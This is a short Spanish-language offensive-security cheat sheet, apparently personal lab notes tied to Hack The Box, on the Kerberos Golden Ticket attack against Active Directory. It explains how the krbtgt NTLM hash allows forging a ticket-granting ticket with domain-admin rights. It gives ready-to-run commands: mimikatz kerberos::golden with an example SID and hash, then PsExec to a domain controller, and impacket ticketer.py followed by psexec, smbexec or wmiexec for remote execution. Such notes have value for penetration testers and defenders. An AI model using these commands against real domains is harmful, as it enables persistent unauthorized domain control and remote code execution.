 
## DESCRIPTION

El objetivo del ataque del Golden Ticket es construir un TGT, para lo cual se necesita la clave del krbtgt. Por tanto si se obtiene el hash NTLM de la cuenta krbtgt, es posible construir un TGT. Dicho TGT puede contar con la caducidad y permisos que se desee, consiguiendo incluso privilegios de administrador de dominio.

El ticket continuará siendo válido aunque el usuario incluido cambie su contraseña. El TGT solo podrá ser invalidado si expira o cambia la contraseña de la cuenta krbtgt.

What's we need? →  krbtgt NTLM
What's we obtain? → TGT

#### Mas información
* 


## EXPLOITATION

### OPTION 1: DESDE win

Usando mimikatz:
```
kerberos::purge
kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt

misc::cmd
```

/krbtgt:1693c6cefafffc7af11ef34d1c788f47: El hash ntlm de la cuenta krbtg es lo mas importante

Luego podemos probar a conectarnos con:

```
PsExec.exe \\dc1 cmd.exe
```

### OPTION 2: DESDE kali

```
# To generate the TGT with NTLM
python ticketer.py -nthash <krbtgt_ntlm_hash> -domain-sid <domain_sid> -domain <domain_name>  <user_name>

# To generate the TGT with AES key
python ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name>  <user_name>

# Set the ticket for impacket use
export KRB5CCNAME=<TGS_ccache_file>

# Execute remote commands with any of the following by using the TGT
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```


## MACHINES

* Hack The Box: 

**!!NOTA IMPORTANTE!!** 